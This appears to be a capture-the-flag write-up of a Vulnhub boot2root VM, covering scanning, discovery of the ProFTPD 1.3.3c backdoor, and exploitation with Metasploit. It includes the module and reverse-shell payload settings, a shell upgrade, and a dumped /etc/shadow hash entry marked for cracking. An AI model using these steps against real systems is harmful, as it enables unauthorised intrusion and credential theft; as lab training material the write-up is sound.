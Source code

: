 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | Fpt |
|End Goal: |	Get root |
|Tool: | nmap,searchsploit, msfconsole |
|Tag:	| #ProFTPD 1.3.3c exploit |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - FTP vuln scan
  - Searchsploit
- Exploit
  - Exploit ProFTPD 1.3.3c
  - Get root
## Walkthrough
### Scanning
- Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
### Enumeration
#### FTP vuln scan
Use Nmap vuln scan to find scan ftp service 
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4 --script=vuln -p 21 192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:35 EDT
Nmap scan report for 192.168.44.130
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
From the result, there are a FTP vulnerability. we can exploited: **ftp-proftpd-backdoor**
## Exploit FPT exploit
The frist I use **searchexploit** to find the way exploit ftp.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/08a13c0c-4031-4e9d-862d-2545d9e4d2e3)

I find the the way to exploit by using metasploit. Start **msfconsole** and set options to exploit.
```
msf6 > search ProFTPD 1.3.3c
msf6 > use 0
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.44.130
RHOSTS => 192.168.44.130
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.44.20
LHOST => 192.168.44.20
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```
When exploit successful, you get a shell. Using command **python -c 'import pty;pty.spawn.("/bin/sh")'**

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/b1e4821a-5a7b-4616-8b5f-188601268040)
Using command **id** to get current user'IP.

![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/7894b801-a967-4fdb-a3a6-f14ae862c5fd)

Dump file /etc/passwd and /etc/shadow
```
echo "marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::" >> shadow.txt

echo "marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash" >> passwd.txt

```
So we can crack it with **john the ripper**.



